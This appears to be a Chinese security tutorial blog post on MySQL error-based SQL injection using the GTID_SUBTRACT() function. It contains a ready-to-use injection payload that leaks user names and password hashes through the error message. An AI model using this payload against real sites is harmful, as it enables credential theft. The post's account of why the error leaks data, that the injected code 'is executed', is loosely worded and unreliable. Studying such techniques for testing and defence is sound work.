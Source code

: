 # 原创
：  【sql注入-报错注入2】GTID_SUBTRACT()函数 报错注入

# 【sql注入-报错注入2】GTID_SUBTRACT()函数 报错注入

**目录**

[GTID_SUBTRACT()报错注入](#extractvalue%28%29%E6%8A%A5%E9%94%99%E6%B3%A8%E5%85%A5)

[一、语法介绍：](#%E4%B8%80%E3%80%81%E8%AF%AD%E6%B3%95%E4%BB%8B%E7%BB%8D%EF%BC%9A)

[二、报错原因](#%E4%BA%8C%E3%80%81%E6%8A%A5%E9%94%99%E5%8E%9F%E5%9B%A0)

[网络安全小圈子](#%E4%B8%89%E3%80%81%E7%BD%91%E7%BB%9C%E5%AE%89%E5%85%A8%E5%B0%8F%E5%9C%88%E5%AD%90)

---


（***注：注意看版本要求）

## GTID_SUBTRACT()报错注入

### 一、语法介绍：

版本：

MySQL &gt;=5.6

GTID_SUBTRACT()函数是MySQL中的一个函数，用于计算两个全局事务标识符（GTID）之间的差异。GTID是MySQL 5.6版本引入的一种全局事务标识符，用于跟踪数据库中的事务

---


语法：

```
GTID_SUBTRACT(gtid_set, gtid)
```

其中，gtid_set是一个GTID集合，gtid是一个单独的GTID。该函数返回一个新的GTID集合，表示从gtid_set中减去gtid后的剩余部分

---


原理：
1. 首先，将gtid_set拆分成一个个单独的GTID。1. 然后，遍历每个GTID，检查它是否与gtid相同。如果相同，则将其从gtid_set中移除。1. 最后，将剩余的GTID重新组合成一个新的GTID集合返回
---


使用场景：
1. 数据库复制：在主数据库上执行事务时，会生成一个GTID，并将其传递给从数据库。从数据库可以使用GTID_SUBTRACT()函数来计算主数据库和从数据库之间的差异，以确定需要复制的数据。1. 数据库迁移：当需要将数据从一个数据库迁移到另一个数据库时，可以使用GTID_SUBTRACT()函数来计算两个数据库之间的差异，并只复制差异部分的数据
---


---


### 二、报错原因

产生原因：

1、GTID（全局事务标识）是MySQL中用于标识全局事务的唯一标识符

2、GTID_SUBTRACT()函数可以用于计算两个GTID集合的差异，以确定哪些事务在一个GTID集合中存在，但在另一个GTID集合中不存在

3、在gtid_set1或gtid_set2参数中注入恶意的SQL代码。这样，当GTID_SUBTRACT()函数执行时，恶意代码会被执行

---


payload：

```
select GTID_SUBTRACT(user(),1)

') or gtid_subtract(concat(0x7e,(SELECT GROUP_CONCAT(user,':',password) from 表名),0x7e),1)--+

//GROUP_CONCAT()函数将它们组合成一个字符串
//concat()函数用于连接字符串
//0x7e表示波浪符（~）

```

---


图示：

root@localhost

 

---


---


## 网络安全小圈子

[README.md · 书半生/网络安全知识体系-实战中心 - 码云 - 开源中国 (gitee.com)https://gitee.com/shubansheng/Treasure_knowledge/blob/master/README.md<img alt="icon-default.png?t=N658" src="https://csdnimg.cn/release/blog_editor_html/release2.3.3/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=N658"/>https://gitee.com/shubansheng/Treasure_knowledge/blob/master/README.md](https://gitee.com/shubansheng/Treasure_knowledge/blob/master/README.md)

[GitHub - BLACKxZONE/Treasure_knowledge<img alt="" src="https://csdnimg.cn/release/blog_editor_html/release2.3.2/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=N5K3"/>https://github.com/BLACKxZONE/Treasure_knowledge](https://github.com/BLACKxZONE/Treasure_knowledge)
